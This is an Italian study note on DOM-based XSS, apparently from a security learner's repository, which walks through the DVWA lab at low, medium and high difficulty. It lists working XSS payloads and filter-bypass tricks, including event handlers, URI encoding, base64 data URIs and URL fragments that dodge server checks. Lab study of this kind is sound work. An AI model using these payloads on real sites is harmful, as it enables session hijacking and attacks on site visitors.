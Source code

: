 ## XSS (DOM)

- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting
- https://www.acunetix.com/blog/articles/dom-xss-explained/

L'attaccante usa un'applicazione vulnerabile per far eseguire codice malevolo agli utenti, generalmente tramite uno script che viene eseguito sul browser.
Il codice malevolo può accedere a cookie, token di sessione e informazioni sensibili gestite dal browser.

Posso eseguire l'attacco anche senza usare il tag `<script></script>`:

- `<body onload=alert('hacked')>`
- `<b onmouseover=alert('hacked')>Click Me!</b>`
- `<img src="http://example.com/not.existing.image" onerror=alert('hacked')>`

Per raggirare i filtri dell'applicazione posso fare l'encoding a livello di URI: `<img src=j%41vascript:alert('hacked')>`.
Per non usare affatto `script` posso codificare il comando in base64 e includerlo nel tag meta: `<meta http-equiv="refresh" content="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnaGFja2VkJyk8L3NjcmlwdD4=">` (`PHNjcmlwdD5hbGVydCgnaGFja2VkJyk8L3NjcmlwdD4=` = `<script>alert('hacked')</script>`).

Il DOM XSS prevede che il payload dell'attacco sia eseguito come conseguenza della modifica del DOM nel browser della vittima, in modo che il codice client viene eseguito in modo inatteso.
Mentre nel caso di Stored o Reflected XSS il payload dell'attacco viene inserito nella pagina di risposta (a causa di una vulnerabilità server).

Preso il seguente codice vulnerabile:

```
Select your language:

<select>
<script>
document.write( "<OPTION value=1>" + document.location.href.substring( document.location.href.indexOf( "default=" ) + 8) + "</OPTION>");

document.write( "<OPTION value=2>English</OPTION>" );

</script>
</select>
```

La relativa pagina può essere invocata accedendo a `http://www.example.com/page.html?default=French`.
Un attacco DOM XSS può essere realizzato facendo accedere la vittima a `http://www.example.com/page.html?default=<script>alert('hacked')</script>`.
Il codice vulnerabile pone quanto specificato nella query string per `default` nel DOM (`<script>alert('hacked')</script>`) e lo esegue nel browser della vittima.

Nell'attacco precedente il payload raggiunge il server.
Per non lasciare traccia sul server posso usare `#`, dato che i frammenti non sono inviati al server.
L'URI diventa: `http://www.example.com/page.html#default=<script>alert('hacked')</script>`.


## XSS (DOM) - Low

```
<script>
if (document.location.href.indexOf("default=") >= 0) {
	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
	document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
	document.write("<option value='' disabled='disabled'>----</option>");
}

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
</script>
```

Exploit:

- accedi a `http://172.17.0.2/vulnerabilities/xss_d/?default=<script>alert('hacked')</script>` oppure a `http://172.17.0.2/vulnerabilities/xss_d/?default=<script>window.location = 'http://www.example.com'</script>`

## XSS (DOM) - Medium

```
# Do not allow script tags
if (stripos ($default, "<script") !== false) {
	header ("location: ?default=English");
	exit;
} 
```

Exploit:

- accedi a `http://172.17.0.2/vulnerabilities/xss_d/?default=#<script>alert('hacked')</script>` o ``http://172.17.0.2/vulnerabilities/xss_d/?default=#<script>window.location = 'http://www.example.com'</script>``

## XSS (DOM) - High

```
# White list the allowable languages
switch ($_GET['default']) {
	case "French":
	case "English":
	case "German":
	case "Spanish":
		# ok
		break;
	default:
		header ("location: ?default=English");
		exit;
} 
```

Exploit:

- accedi a `http://172.17.0.2/vulnerabilities/xss_d/?default=French#<script>alert('hacked')</script>` o a `http://172.17.0.2/vulnerabilities/xss_d/?default=French#<script>window.location = 'http://www.example.com'</script>`


